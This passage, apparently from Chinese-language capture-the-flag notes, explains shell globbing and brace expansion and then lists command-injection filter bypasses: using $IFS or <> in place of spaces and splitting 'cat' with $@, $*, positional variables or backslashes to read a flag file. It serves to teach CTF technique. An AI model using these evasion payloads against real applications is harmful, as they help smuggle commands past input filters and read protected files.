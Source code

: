 ```
cat ./fl?g
```

{xxx}和[xxx]有个重要区别，如果匹配的文件不存在，[xxx]会失去模式的功能，变成一个单纯的字符串，而{xxx}还是可以展开。
```
cat ./fl[a-z]g	# 得到结果就只有存在的文件

cat ./fl{a,b,c}g 
# 得到的结果是每一个都会去尝试打开，但是不存在的会提示
cat: ./flbg: No such file or directory
```

#### 4. 内置通用字符簇

也是shell正则的知识

- [[:alpha:]]：任何字母
- [[:digit:]]：任何数字
- [[:alnum:]]：任何字母和数字
- [[:space:]]：任何空白字符
- [[:upper:]]：任何大写字母
- [[:lower:]]：任何小写字母
- [[:punct:]]：任何标点符号
- [[:xdigit:]]：任何16进制的数字，相当于[0-9a-fA-F]



## 0x0b 绕过

#### 1. 空格绕过

- \<\>
```
cat<>./flag
```

- $IFS（IFS的默认值是空白，也包括空格，tab，新行）
```
cat$IFS./flag
```

#### 2. 关键词绕过

- $
```
ca$*t ./flag
ca$@t ./flag
ca$2t ./flag
ca${11}t ./flag 
```

- 反斜杠
```
ca\t ./flag
```
